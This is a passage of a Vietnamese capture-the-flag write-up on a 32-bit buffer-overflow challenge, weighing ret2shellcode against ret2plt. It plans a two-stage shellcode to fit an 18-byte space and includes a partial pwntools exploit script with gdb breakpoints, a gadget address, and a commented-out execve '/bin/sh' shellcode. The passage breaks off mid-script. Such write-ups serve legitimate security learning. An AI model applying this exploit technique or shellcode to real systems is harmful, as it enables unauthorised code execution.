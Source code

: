 ```


![image](https://hackmd.io/_uploads/BkPYFr5Wyg.png)


1 bài BOF  và PIE tắt , có 2 hướng lóe lên là ret2shellcode và ret2plt vì có hàm printf
![image](https://hackmd.io/_uploads/HkfcKHcWJg.png)

- như đã nói ban đầu , không gian cho shellcode là 18 byte , ta sẽ làm các kiểu cũng éo đủ (hoặc là có thể) , shellcode lụm trên mạng 17 byte tuy nhiên nó lại kh setup ecx,edx =)))

- vậy ta sẽ phải chia shellcode thành 2 phần , đến lúc này phải debug mới thấy rõ , sau khi overwrite ESP , ta sẽ dùng 1 shellcode setup  edx các kiểu , xong setup xong ta sẽ cho nó jump đến cái thằng đầu tiên ta nhập là shellcode 1 để thực thi :v 

script 
```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./space')
context.arch = 'i386'
p = process()

#p = remote('94.237.62.166',55037)
gdb.attach(p,gdbscript='''
           b*0x80491ce
           b*0x80491c1
           ''')
input()
call_eax = 0x08049019

###shellcode nay khong thanh cong do ecx,edx kh NULL
#shellcode = asm('''

#    push 0x0b
#    pop eax
#    push 0x68732f2f
#    push 0x6e69622f
#    mov ebx, esp
#    int 0x80
#    ''',arch = 'i386')
